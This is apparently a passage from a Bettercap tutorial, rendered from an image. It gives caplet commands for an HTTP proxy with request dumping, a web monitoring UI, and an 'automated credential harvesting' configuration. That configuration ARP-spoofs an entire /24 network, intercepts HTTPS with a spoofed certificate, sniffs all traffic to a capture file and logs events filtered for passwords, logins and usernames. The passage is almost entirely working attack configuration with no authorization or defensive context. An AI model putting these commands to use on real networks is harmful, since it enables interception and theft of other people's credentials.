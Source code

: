 ```bash
# Set up HTTP proxy
set http.proxy.port 8080
http.proxy on

# Enable HTTP request/response dumping
http.proxy.script /path/to/dump.js
```

#### 5. Web UI for Monitoring

```bash
# Start the web UI
ui.update
set http.server.address 0.0.0.0
set http.server.port 8081
http.server on
```

### Example: Automated Credential Harvesting

This example demonstrates using Bettercap to automatically harvest credentials from HTTP, HTTPS, and other protocols:

1. Create a custom caplet file (`creds.cap`):

```
# Enable network discovery
net.probe on

# Setup ARP spoofing for the entire network
set arp.spoof.targets 192.168.1.0/24
set arp.spoof.internal true
arp.spoof on

# Enable HTTPS proxy with certificate spoofing
set https.proxy.port 8443
set https.proxy.certificate /path/to/cert.pem
set https.proxy.key /path/to/key.pem
https.proxy on

# Enable logging of credentials
set http.proxy.port 8080
http.proxy on
set http.proxy.script /usr/share/bettercap/caplets/http-req-dump.js

# Enable logging of all network traffic
set net.sniff.local true
set net.sniff.output /tmp/network_traffic.pcap
set net.sniff.verbose true
net.sniff on

# Capture FTP, IMAP, SMTP, and Telnet credentials
set events.stream.output /tmp/credentials.log
events.stream on

# Filter for keywords
set events.stream.filter *password*,*credential*,*login*,*username*
```
